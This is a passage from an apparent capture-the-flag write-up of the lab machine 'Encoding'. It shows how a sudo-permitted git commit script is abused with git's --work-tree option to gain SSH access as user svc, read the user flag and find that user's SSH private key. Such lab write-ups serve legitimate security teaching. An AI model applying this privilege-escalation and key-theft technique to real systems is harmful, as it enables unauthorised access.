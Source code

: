 ```

www-data@encoding:~/image$ git --work-tree /etc/ add /etc/hostname 
www-data@encoding:~/image$ git status
On branch master
Changes to be committed:
  (use "git restore --staged <file>..." to unstage)
        new file:   hostname

Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
        deleted:    hostname

```

Not it shows up as new and deleted (which is a bit weird, but I’m doing weird things with `git`).

#### Trigger

`sudo` and the script will commit to the repo now since there are changes to be committed.

```

www-data@encoding:~/image$ sudo -u svc /var/www/image/scripts/git-commit.sh
[master b40dd01] Commited from API!
 1 file changed, 1 insertion(+)
 create mode 100644 hostname

```

It works, and I can SSH as svc:

```

oxdf@hacky$ ssh -i ~/keys/ed25519_gen svc@haxtables.htb
Welcome to Ubuntu 22.04.1 LTS (GNU/Linux 5.15.0-58-generic x86_64)
...[snip]...
svc@encoding:~$ 

```

And get the user flag:

```

svc@encoding:~$ cat user.txt
20861ae5************************

```

There’s also a SSH key in the user’s home directory which I can grab for future use (if I overwrite the previous `authorized_keys` I’ll need to re-add `id_rsa.pub`):

```

svc@encoding:~/.ssh$ ls
authorized_keys  id_rsa  id_rsa.pub  known_hosts

```
